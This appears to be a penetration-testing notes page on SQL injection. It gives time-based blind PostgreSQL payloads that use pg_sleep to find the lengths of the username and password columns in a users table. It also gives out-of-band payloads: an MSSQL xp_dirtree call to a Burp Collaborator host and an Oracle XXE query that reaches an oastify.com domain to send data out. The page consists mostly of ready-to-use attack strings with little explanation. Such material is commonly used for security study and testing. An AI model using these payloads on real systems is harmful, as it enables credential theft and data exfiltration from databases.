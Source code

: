 

Finding Username:

{% code overflow="wrap" %}
```sql
# Payload 1:
payload = f"';SELECT CASE WHEN (LENGTH(username) > 12) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"

# Payload 2:
payload = f"';SELECT CASE WHEN (LENGTH(username) > 13) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"

```
{% endcode %}



Finding Password

{% code overflow="wrap" %}
```sql
# Payload 1:
payload = f"';SELECT CASE WHEN (LENGTH(password) > 19) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"

# Payload 2:
payload = f"';SELECT CASE WHEN (LENGTH(password) > 20) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"

```
{% endcode %}



Out of Band Injection:

> An Attacker queries that cause the database to communicate with an external server to send database information.
>
>

Payload:

<pre class="language-sql"><code class="lang-sql"><strong>xp_dirtree is used in SQL for nslookup'
</strong><strong>
</strong> ; exec master ..xp_dirtree '//BURPCollabirator.net\a'--
</code></pre>



Query:

{% code overflow="wrap" %}
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual
```
{% endcode %}
